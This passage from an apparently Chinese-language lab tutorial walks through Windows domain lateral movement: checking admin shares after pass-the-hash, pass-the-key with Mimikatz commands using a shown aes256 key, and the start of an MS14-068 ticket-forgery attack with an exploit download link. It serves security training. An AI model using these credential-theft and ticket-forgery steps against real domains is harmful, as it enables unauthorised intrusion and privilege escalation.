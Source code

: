 
弹出一个新的cmd框，只要弹出框，就说明这个域内主机与我们收集到的NTLM值相同。接下来我们就可以进行at schtasks 复制文件、执行文件等其他操作了。

```shell
dir \\OWA2010CN-God.god.org\c$
dir \\192.168.3.21\c$
```



![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-5.png)



## 域横向移动 PTK 传递-Mimikatz

PTK aes256传递 - 打补丁后的工作组及域连接：
因为PTK传递需要一个前提条件，主机必须打了补丁kb2871997。
在实际上，PTK传递比PTH传递用的少。

```shell
sekurlsa::ekeys 获取aes256值
sekurlsa::pth /user:mary /domain:god /aes256:d7c1d9310753a2f7f240e5b2701dc1e6177d16a6e40af3c5cdff814719821c4b
```

获取aes256值

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-6.png)

PTK传递（这里使用的是本机的aes256，仅做操作演示）

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-7.png)

## 域横向移动 PTT 传递-MS14068&kekeo&local

### 案例 3-域横向移动 PTT 传递-ms14068&kekeo&本地

#### 第一种利用漏洞：

MS14-068 powershell 执行，能实现普通用户直接获取域控 system 权限

- MS14-068下载：https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

1. `whoami/user` 查看当前 sid 

```
 S-1-5-21-1218902331-2157346161-1782232778-1124
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-8.png)

mary就是域内一个普通用户

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-9.png)

2.清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
